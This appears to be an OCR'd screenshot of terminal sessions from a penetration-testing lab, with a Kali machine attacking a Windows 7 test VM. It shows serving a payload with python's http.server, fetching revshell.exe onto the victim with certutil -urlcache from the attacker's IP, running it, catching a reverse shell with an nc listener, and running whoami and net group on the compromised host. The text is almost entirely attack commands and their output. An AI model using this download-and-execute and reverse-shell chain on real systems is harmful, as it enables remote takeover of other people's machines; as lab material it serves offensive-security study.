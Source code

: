 ```
┌──(root㉿kali)-[~/tmp]
└─# python3 -m http.server 80     
Serving HTTP on 0.0.0.0 port 80 (http://0.0.0.0:80/) ...
```

```
C:\Users\IEUser>cd Downloads

C:\Users\IEUser\Downloads>certutil -urlcache -f http://192.168.213.128/revshell.exe revshell.exe
****  Online  ****
CertUtil: -URLCache command completed successfully.
```

```
┌──(root㉿kali)-[~/tmp]
└─# python3 -m http.server 80     
Serving HTTP on 0.0.0.0 port 80 (http://0.0.0.0:80/) ...
192.168.213.131 - - [21/Apr/2023 06:22:31] "GET /revshell.exe HTTP/1.1" 200 -
192.168.213.131 - - [21/Apr/2023 06:22:45] "GET /revshell.exe HTTP/1.1" 200 -
```

```
┌──(root㉿kali)-[~/tmp]
└─# nc -nvlp 1234
listening on [any] 1234 ...
```

```
C:\Users\IEUser\Downloads>revshell.exe
```

```
┌──(root㉿kali)-[~/tmp]
└─# nc -nvlp 1234
listening on [any] 1234 ...
connect to [192.168.213.128] from (UNKNOWN) [192.168.213.131] 49169
Microsoft Windows [Version 6.1.7601]
Copyright (c) 2009 Microsoft Corporation.  All rights reserved.

C:\Users\IEUser\Downloads>whoami
whoami
iewin7\ieuser

C:\Users\IEUser\Downloads>net group
net group
This command can be used only on a Windows Domain Controller.

More help is available by typing NET HELPMSG 3515.
```